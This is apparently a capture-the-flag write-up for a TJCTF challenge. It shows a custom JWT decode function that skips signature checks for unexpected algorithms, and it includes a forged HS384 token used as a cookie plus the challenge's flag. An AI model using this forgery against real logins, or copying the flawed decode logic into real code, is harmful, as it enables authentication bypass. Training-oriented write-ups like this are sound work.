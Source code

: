 # Back to Past

**The Challenge**

In the challenge there was a login page , register page and a retro page. In the register page it asks your name and year and we cant give the year below 1970. and after that you will be redirect to "/" page and it will judge you.

**The Exploit**

In this challenge it will give flag if the year is below 1970.
Here the jwt library that they were importing was custom. In it the decode() fuction was vulnerable.
```py
    def decode(token, secret, algorithms=None):
    if not algorithms or any(alg not in possible_algorithms for alg in algorithms):
        return None
    if token.count(b".") != 2:
        return None

    header, payload, signature = token.split(b".")
    if not header or not payload or not signature:
        return None
    try:
        json_header = json.loads(base64url_decode(header))
        json_payload = json.loads(base64url_decode(payload))
        decoded_signature = base64url_decode(signature)
        alg_to_use = json_header["alg"]
        if alg_to_use == "HS256":
            h = hmac.HMAC(secret, hashes.SHA256())
            h.update(b".".join([header, payload]))
            h.verify(decoded_signature)
        elif alg_to_use == "RS256":
            pub = serialization.load_pem_public_key(secret)
            pub.verify(
                decoded_signature,
                b".".join([header, payload]),
                padding.PSS(
                    mgf=padding.MGF1(hashes.SHA256()),
                    salt_length=padding.PSS.MAX_LENGTH,
                ),
                hashes.SHA256(),
            )
        return json_payload
    except Exception as e:
        print(e)
        return None
```
Here the algorithm that was compared was the one given as default in the function call. And the algorithm later used was from the jwt token. Then if this algorithm was different than "HS256" or "RS256" then it will just return the json_payload and we can corrupt it.

payload = {
    "id":"123456",
    "name":"hai",
    "year":"1960"
}

And I encoded it with hs384 and gave it to the cookie and got the flag in the page "/retro"

Json = "eyJhbGciOiJIUzM4NCIsInR5cCI6IkpXVCJ9.eyJpZCI6IjEyMzQ1NiIsIm5hbWUiOiJoYWkiLCJ5ZWFyIjoiMTk2MCJ9.6oblO-1ZMQ1ij-ruqOxBaj58VOIHlkwNIUud-6K_uLxJryaoE49EvtOqsXMZrJ0g"

**The Flag**

Flag = tjctf{very_very_retro_3bbff613}